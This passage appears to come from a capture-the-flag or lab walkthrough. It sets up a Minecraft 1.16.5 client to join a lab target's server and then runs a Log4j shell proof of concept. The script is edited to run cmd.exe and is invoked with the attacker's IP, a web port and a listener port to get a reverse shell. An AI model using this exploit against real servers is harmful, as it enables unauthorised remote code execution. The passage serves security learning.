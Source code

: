 So As I installed the java now its time to run the `minecraft` game on linux machine and for that I went to this site ⏬

![Image](Pasted%20image%2020240414125055.png)
_Download from here : https://tlauncher.org/en/_

```bash
sudo unzip <name of file>  
sudo java -jar TLauncher-*.jar
```
{: .nolineno}
{: .nolineno}

Select the same version , that is given fron victim machine while port scan version 1.16.5 no any other version.
Then Enter any name and hit Enter.

![Image](Pasted%20image%2020240414125547.png)
_Select the version of minecraft as 1.16.5_

![Image](Pasted%20image%2020240414133417.png)
_Multiplayer option_

Now you will have 2 options to include you victim machine server .
- Direct connection
- Add Server

![Image](Pasted%20image%2020240414125758.png)
_Options to setup the game server_

I choose **Direct Connection** option and Entered the machines IP and Clicked on <i><span style="color:#f04276">Join Server</span></i> and I am in.
![Image](Pasted%20image%2020240414112956.png)
_Server Connection_

I am inside the game now ⏬

![Image](Pasted%20image%2020240414113158.png)

Now press 'T' to enable comment section and now you can enter the comment to another user.

Lets run this exploit now , but wait a sec I need to make some changes into the exploit like what to execute while running this exploit <span style="color:#ffc000">cmd.exe</span> .

![Image](Pasted%20image%2020240414132422.png)
_poc.py file_

Now lets run this exploit ⏬

```bash
python3 log4j-shell-poc/poc.py --userip 10.10.14.36 --webport 80 --lport 445
```
{: .nolineno}
{: .nolineno}
